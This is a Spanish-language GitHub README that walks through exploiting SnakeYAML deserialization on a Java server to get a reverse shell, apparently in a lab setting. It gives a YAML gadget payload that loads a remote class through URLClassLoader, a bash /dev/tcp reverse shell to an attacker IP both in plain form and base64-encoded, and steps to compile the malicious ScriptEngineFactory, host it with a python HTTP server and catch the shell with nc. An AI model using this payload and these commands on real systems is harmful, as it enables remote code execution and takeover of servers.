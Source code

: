 # yaml-parser-payload

Payload para ejecutar una reverse shell en un servidor yaml en java.

Esto lo pondremos en el servidor victima para que nos ejecute nuestro payload  con nuestra r_shell.
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://my_python_server/"]
  ]]
]
```
![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/parser_web.jpg)

!Nota!
Si quereis probar antes de poner el payload en el server de python ,lo probais sin nada y vereis las peticiones que hace el parser a nuestro server..

En nuestra terminal compartiremos un server con python para que se conecte nuestra victima hacia nosotros asi cargar el payload.
```bash
sudo python3 -m hhtp.server 80
```
![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/python%20server.jpg)

Editaremos nuestro archivo AwesomeScriptEngineFactory.java
y añadiremos nuestra reverse_shell en bash pero codificado en base64 lo codificaremos en esta pagina.
```reverse
bash -i >& /dev/tcp/10.10.14.19/443 0>&1

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS80NDMgMD4mMQ==}|{base64,-d}|{bash,-i}
```
in this page encode reverse shell  in base64 http://www.jackson-t.ca/runtime-exec-payloads.html

lo compilamos :
necesitaremos jdk instalado ojo!!!!

------bash console or cmd -----
```bash
javac AwesomeScriptEngineFactory.java
```
Nos generara el archivo 'AwesomeScriptEngineFactory.class'. y lo introduciremos en la carpeta h1dr0.

La estructura del Payload tiene que ser asi para que el servidor haga la peticion y encuetre el archivo. 
```tree
 exploit /
  |-->      META-INF/services/javax.script.ScriptEngineFactory dentro de este archivo escribir esto -> h1dr0.AwesomeScriptEngineFactory/
  |-->      h1dr0/AwesomeScriptEngineFactory.class
```

Al darle a parse en la web veremos en nuestro servidor que esta haciendo la peticion de los archivos y en otra shell tendremos el nc preparado

![](https://github.com/aquilino/yaml-parser-payload/blob/main/img/nc.jpg)

A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):

thanks @marshalsec.


